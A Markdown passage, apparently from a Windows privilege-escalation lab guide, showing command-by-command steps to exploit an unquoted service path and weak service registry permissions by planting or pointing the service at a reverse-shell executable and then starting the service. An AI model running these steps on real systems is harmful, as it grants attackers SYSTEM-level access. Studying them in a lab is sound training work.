 ### Privilege Escalation
1. Run winPEAS to check for service misconfigurations:
```
.\winPEASany.exe quiet servicesinfo
```
2. Note that the `unquotedsvc` service has an unquoted path that also contains spaces: `C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`
3. Confirm this using sc:
```
sc qc unquotedsvc
```
4. Use accesschk.exe to check for write permissions:
```
.\accesschk.exe /accepteula -uwdq C:\
.\accesschk.exe /accepteula -uwdq "C:\Program Files\"
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```
5. Copy the reverse shell executable and rename it appropriately:
```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
```
6. Start a listener on Kali, and then start the service to trigger the exploit:
```
net start unquotedsvc
```
## Weak Registry Permissions

The Windows registry stores entries for each service.

Since registry entries can have ACLs, if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.

### Privilege Escalation
1. Run winPEAS to check for service misconfigurations:
```
.\winPEASany.exe quiet servicesinfo
```
2. Note that the “regsvc” service has a weak registry entry. We can confirm this with PowerShell:
```
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
```
3. Alternatively accesschk.exe can be used to confirm:
```
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
```
4. Overwrite the ImagePath registry key to point to our reverse shell executable:
```
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```
5. Start a listener on Kali, and then start the service to trigger the exploit:
```
net start regsvc
```
